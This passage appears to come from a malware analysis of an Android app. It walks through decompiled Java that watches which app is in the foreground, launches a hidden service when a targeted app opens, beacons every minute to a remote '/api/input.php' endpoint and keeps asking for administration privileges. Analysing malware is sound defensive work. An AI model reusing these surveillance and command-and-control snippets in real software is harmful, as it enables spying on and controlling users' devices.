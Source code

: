 * First, a service named `MasterInterceptor` (quite suspicious) is launched
* A repeated task is configured, doing its job every minute ( `i` is equal to 60, and in the manifest, the meta-data `timer` is also `<meta-data android:name="timer" android:value="i60"/>`
* The routine `eba` is called, continuously asking for administration privileges

Let's take a closer look

### MasterInterceptor

The routine `onStartService` only returns `Service.START_REDELIVER_INTENT`, but in `onCreate`, an asynchronous task is launched, iterating over active packages :

> ```java
>String[] getActivePackages(){
>	HashSet<String> localHashSet = new HashSet<>();
>	for (ActivityManager.RunningAppProcessInfo localRunningAppProcessInfo : ((ActivityManager) getSystemService(ACTIVITY_SERVICE)).getRunningAppProcesses()) {
>		if (localRunningAppProcessInfo.importance == 100) {
>			localHashSet.addAll(Arrays.asList(localRunningAppProcessInfo.pkgList));
>		}
>	}
>	return localHashSet.toArray(new String[localHashSet.size()]);
>}
>
>String[] getActivePackagesCompat(){
>	return new String[] { ((ActivityManager)getSystemService(ACTIVITY_SERVICE)).getRunningTasks(1).get(0).topActivity.getPackageName() };
>}
> ```

Each package name is then compared against a value put in preferences, and if there is a match, the service `GlobalCode` is launched :

> ```java
>Intent localIntent = new Intent(getApplicationContext(), GlobalCode.class);
>localIntent.putExtra("content", localMap.get(str));
>localIntent.putExtra("type", "start");
>localIntent.putExtra("data", "");
>startService(localIntent);
> ```

### MasterTimer

The class `MasterTimer` is a `BroadcastReceiver`, repeating a task every minute:

> ```java
>public void onReceive(Context paramContext, Intent paramIntent){
>	String str = "";
>	try{
>		ApplicationInfo localApplicationInfo = paramContext.getPackageManager().getApplicationInfo(paramContext.getPackageName(), 128);
>		if (localApplicationInfo.metaData != null) {
>			str = localApplicationInfo.metaData.getString("domain");
>		}
>	}
>	catch (PackageManager.NameNotFoundException e){
>		e.printStackTrace();
>	}
>	this.intent = new Intent(paramContext, GlobalCode.class);
>	this.intent.putExtra("content", "http://" + str + "/api/input.php");
>	this.intent.putExtra("type", "Master");
>	this.intent.putExtra("data", "");
>	paramContext.startService(this.intent);
>}
>```
